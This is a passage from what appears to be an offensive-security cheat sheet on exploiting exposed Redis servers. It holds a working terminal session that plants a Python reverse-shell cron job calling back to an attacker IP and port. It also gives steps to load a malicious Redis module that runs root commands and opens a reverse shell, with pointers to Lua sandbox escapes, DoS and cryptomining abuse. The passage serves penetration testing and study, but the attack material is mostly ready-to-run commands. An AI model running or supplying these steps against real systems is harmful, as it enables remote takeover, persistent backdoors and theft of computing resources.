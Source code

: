 **This technique is automated here:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab

```

root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

The last exampleis for Ubuntu, for **Centos**, the above command should be: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Load Redis Module

1. Following the instructions from [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) you can **compile a redis module to execute arbitrary commands**.
2. Then you need some way to **upload the compiled** module
3. **Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`
4. **List loaded modules** to check it was correctly loaded: `MODULE LIST`
5.  **Execute** **commands**:

    ```
    127.0.0.1:6379> system.exec "id"
    "uid=0(root) gid=0(root) groups=0(root)\n"
    127.0.0.1:6379> system.exec "whoami"
    "root\n"
    127.0.0.1:6379> system.rev 127.0.0.1 9999
    ```
6. Unload the module whenever you want: `MODULE UNLOAD mymodule`

### LUA sandbox bypass

[**Here**](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) you can see that Redis uses the command **EVAL** to execute **Lua code sandboxed**. In the linked post you can see **how to abuse it** using the **dofile** function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible. Anyway, if you can **bypass the Lua** sandbox you could **execute arbitrary** commands on the system. Also, from the same post you can see some **options to cause DoS**.

Some **CVEs to escape from LUA**:
